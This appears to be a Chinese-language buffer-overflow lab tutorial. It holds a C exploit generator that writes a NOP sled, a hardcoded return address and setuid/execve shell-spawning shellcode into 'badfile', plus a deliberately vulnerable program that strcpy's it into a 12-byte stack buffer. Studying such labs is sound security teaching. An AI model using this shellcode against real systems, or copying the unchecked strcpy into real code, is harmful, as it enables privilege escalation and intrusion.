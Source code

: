 ## 利用缓冲区溢出开启shellcode

示例代码如下：

```c
/* exploit.c */
/* A program that creates a file containing code for launching shell*/

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[] = "\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80";

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */

    strcpy(buffer+0x18,"\xfb\xce\xff\xff");
    strcpy(buffer + 100, shellcode);   //将shellcode拷贝至buffer，偏移量设为了 100

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

上述代码是利用缓冲区溢出漏洞实现的攻击程序，目的是生成一个恶意代码文件 "badfile"，利用strcpy缓冲区漏洞，让用户在读取文件时跳转至预设的shellcode。

```c
// satck.c

#include <stdio.h>
#include <string.h>

int bof(char *str){
    char buffer[12];
    strcpy(buffer, str);
    return 1;
}

int main(){
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```
